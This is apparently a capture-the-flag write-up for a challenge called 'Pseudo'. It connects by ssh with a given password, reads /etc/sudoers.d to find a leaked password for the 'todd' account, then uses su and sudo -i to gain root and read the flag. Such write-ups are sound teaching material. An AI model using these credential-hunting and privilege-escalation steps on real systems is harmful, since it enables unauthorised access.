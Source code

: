 ```yaml
---
layout: post
title: "Pseudo"
author: "vishalananth"
tags: ['Miscellaneous']
---
```


Someone here has special powers... but who? And how!?

Connect here:
ssh -p 50014 user@jh2i.com # password is 'userpass'

## Solution

After looking at nearly everything within the remote machine, we finally saw that the /etc/sudoers file contained:

```
....
....
#includedir /etc/sudoers.d
```

So we tried to read whatever is in sudoers.d using

```
cat /etc/sudoers.d/*
.....
.....
# The credentials for the 'todd' account is 'needle_in_a_haystack'
todd ALL = NOPASSWD: ALL
```

We got the credentials of todd and see he has root access, switching to todd and then to root using:

```
su todd
password: needle_in_a_haystack
sudo -i
cat flag.txt
```

gives us the flag

## Flag
```
flag{hmmm_that_could_be_a_sneaky_backdoor}
```

